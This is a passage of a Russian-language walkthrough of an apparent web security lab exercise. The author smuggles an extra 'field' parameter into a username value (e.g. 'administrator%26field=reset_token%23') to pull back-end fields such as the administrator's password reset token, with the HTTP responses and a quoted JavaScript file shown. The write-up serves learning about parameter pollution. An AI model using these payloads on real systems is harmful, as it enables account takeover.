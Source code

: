 А что, если вместо `email` подставить `username`?

```
administrator%26field=username%23
```

Это сработало:

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 44

{"type":"username","result":"administrator"}
```

Попробую получить пароль:

```
administrator%26field=password%23
```

Не получилось(

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 44

{"type":"username","result":"administrator"}
```

Поищу, какие поля еще можно вытащить. В файле `forgotPassword.js` был следующий код:

```js
forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?reset_token=${resetToken}`;
    }
    else
    {
        const forgotPasswordBtn = document.getElementById("forgot-password-btn");
        forgotPasswordBtn.addEventListener("click", displayMsg);
    }
});
```

Тут есть поле `reset_token`. Попробую получить его:

```
administrator%26field=reset_token%23
```
